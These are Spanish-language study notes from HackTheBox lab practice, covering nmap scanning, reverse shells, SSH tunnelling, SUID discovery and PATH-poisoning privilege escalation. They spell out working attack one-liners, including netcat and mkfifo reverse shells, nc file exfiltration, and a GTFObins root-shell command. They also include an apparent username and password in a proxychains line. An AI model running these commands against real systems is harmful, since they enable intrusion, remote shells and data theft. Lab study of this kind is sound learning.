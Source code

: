 # Aprendiendo de Hackthebox.com

- sitios: 
    - https://brainful.blog/2022/01/19/enumeration-2/

- usando nmap
    - `-sU` scanear puertos UDP
    - `-p80` escanear puerto 80, `-p-` escanear todos los puertos
    - `-sS` tcp syn ping
    - `-v` verbose
    - `-Pn` skip ping

- Reverse shell
    - si se puede subir archivos al sitio se usa un [simple webshell](https://gist.github.com/joswr1ght/22f40787de19d80d110b37fb79ac3985#file-easy-simple-php-webshell-php)
    - [reverse shell cheatsheet](https://ironhackers.es/herramientas/reverse-shell-cheat-sheet/).
    - `nc -e /bin/sh 10.0.0.1 1234`
    - si `nc` no soporte la opcion `-e`: 
        - `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f`
    - si se conecta usamos:
        - `python3 -c 'import pty;pty.spawn("/bin/bash")'`

    - si usamos `sudo -l` y no funciona usamos:
        - [GTFObins](https://gtfobins.github.io/gtfobins/at/) `echo "/bin/sh <$(tty) >$(tty) 2>$(tty)" | at now; tail -f /dev/null`

    - bajar un archivo con `nc`:
        - en nuestra pc con ip 10.10.14.81: `nc -nvlp 10.10.14.81 4444 > file`
        - en el pc remoto: `nc 10.10.14.81 4444 < file`

- SSH tunneling
    - ssh -D1234 user@10.10.11.136
    - bajamos el `foxyproxy` y configuramos:
        - proxy type: SOCKS5
        - Proxy IP: 127.0.0.1
        - Port: 1234
        - Send DNS through SOCKS5 proxy: enable
    - para aplicaciones de linea de comandos usamos `proxychains`
        - editamos nano /etc/proxychains.conf
        - opcion: strict_chain
        - socks5 127.0.0.1 1234 daniel HotelBabylon23

- [Buscar archivos SUID](https://blog.certcube.com/suid-executables-linux-privilege-escalation/) (permisos: rws) para usar el path poison:
    - `find / -user root -perm -4000 -print 2>/dev/null`
    - `find / -perm -u=s -type f 2>/dev/null`
    - `find / -user root -perm -4000 -exec ls -ldb {} \;`
    - [path poisoning](https://betterprogramming.pub/becoming-root-via-a-misconfigured-path-720a52981c93) : 
        - `export PATH=/tmp:$PATH`
        - en /tmp suplantamos el nombe de un commando asi cuando
        se llame a ese comando ejecutara el commando en /tmp.

